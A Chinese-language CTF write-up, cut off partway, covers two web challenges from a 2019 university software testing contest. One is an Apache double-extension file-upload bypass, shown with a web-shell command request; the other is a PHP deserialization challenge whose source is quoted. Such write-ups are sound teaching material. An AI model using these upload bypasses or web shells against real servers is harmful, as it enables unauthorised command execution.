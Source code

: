 ```yaml
---
title: 2019 全国大学生软件测试大赛预选赛
key: 44def6323c02cd482e5d1f7cb27854f7
tags:
  - Writeup
  - CTF
date: 2019-10-26 23:07:07
---
```


## Web1 比比手速

- 文件上传 + HTTP Header

HTTP Header 里含有 password 提交正确后可进入 upload.php, 对上传文件的后缀(.php)进行了黑名单过滤，结合 Apache 容器上传 `shell.php.xxxx` 可正常解析。

```php
/uploads/shell.php.xxxxxxx?cmd=system('ls+../');
```

获取到 flag{698539765730b69026796420b9201e03}.

## Web2 baby

- PHP 反序列化

获取到 index.php 源码：

```php
<?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    protected $skyobj;  
    public $aaa;
    public $bbb;
    function __construct() 
    {      
        $this->skyobj = new sec;
    }  
    function __toString()      
    {          
        if (isset($this->skyobj))  
            return $this->skyobj->read();      
    }  
}  

class cool 
{    
    public $filename;     
    public $nice;
    public $amzing; 
    function read()      
    {   
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";        
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
```
